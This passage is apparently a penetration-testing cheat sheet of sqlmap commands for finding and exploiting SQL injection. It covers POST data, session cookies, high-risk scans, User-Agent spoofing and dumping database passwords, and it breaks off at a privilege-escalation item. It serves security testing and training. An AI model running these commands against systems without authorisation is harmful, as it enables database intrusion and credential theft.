 [Dumping tables using SQLmap](https://rnehra01.github.io/Dumping-tables-using-sqlmap)

## Examples

* Target the _http://target.server.com_ URL using the **-u** flag:

```bash
sqlmap -u 'http://target.server.com'
```

* Specify POST requests by specifying the **-data** flag:

```bash
sqlmap -u "http://10.10.155.76/login.php" -method "POST" -data "log_email=cun@gmail.com&log_password=123456&login_button=Login" --dbs
```

* Target a vulnerable parameter in an authenticated session by specifying cookies using the **-cookie** flag:

```bash
sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7D- SQHx'
```

* Drop all Set-Cookie requests from the target web server using the **-drop-set-cookie** flag:

```bash
sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
```

* Perform in-depth and risky attacks using the **-level** and **-risk** flags:

```bash
sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
```

* Specify which POST or GET parameter to target using the **-p** flag:

```bash
sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
```

* Choose a random User-Agent request header using the **–random-agent** flag:

```bash
sqlmap -u 'http://target.server.com' -r req.txt --random-agent
```

* Target a certain database service using the **–dbms** flag:

```bash
sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
```

* Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:

```bash
sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
```

* Attempt privilege escalation on the target database
